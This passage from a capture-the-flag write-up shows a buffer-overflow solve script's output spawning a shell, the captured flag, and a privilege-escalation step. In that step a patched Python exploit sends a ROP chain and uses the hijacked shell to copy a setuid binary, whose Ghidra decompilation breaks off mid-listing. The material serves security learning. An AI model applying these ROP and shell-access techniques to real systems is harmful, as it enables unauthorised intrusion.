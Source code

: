 ```bash
$ python solve.py LOCAL
[*] '/home/vivescere/ctf/bof_1/service'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process '/home/vivescere/ctf/bof_1/service': pid 682309
[*] Switching to interactive mode
$ pwd
/home/vivescere/ctf/bof_1
```

And it worked! The flag was in `/home/ctf/flag.txt`: `CYBERTF{B@sic_R0PChain}`.

## Level 3: PrivEsc

I started looking around the filesystem, and quickly found a SETUID binary: `/bin/check`. I didn't have a way to download it using SCP, so I patched the exploit to do it instead:

```python
def main():
    r = conn()

    wanted = p64(0x401885)
    offset = 56

    r.recvuntil('?')
    r.recvline()
    r.sendline(flat({offset: gen_rop()}))
    r.recvline()

    with open('check', 'wb') as f:
        r.sendline('cat /bin/check')
        r.sendline('exit')
        f.write(r.recvall())
```

I then decompiled the main function using Ghidra:

```c
undefined8 main(void) {
  int iVar1;
  undefined8 uVar2;
  size_t sVar3;
  long lVar4;
  undefined8 *puVar5;
  long in_FS_OFFSET;
  byte bVar6;
  undefined8 local_420;
  undefined8 local_418;
  undefined8 local_410;
  undefined8 local_408 [127];
  long local_10;
  
  bVar6 = 0;
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  setreuid(0x3e9,0x3e9);
  local_418 = 0;
  local_410 = 0;
  lVar4 = 0x7e;
  puVar5 = local_408;
  while (lVar4 != 0) {
    lVar4 = lVar4 + -1;
    *puVar5 = 0;
```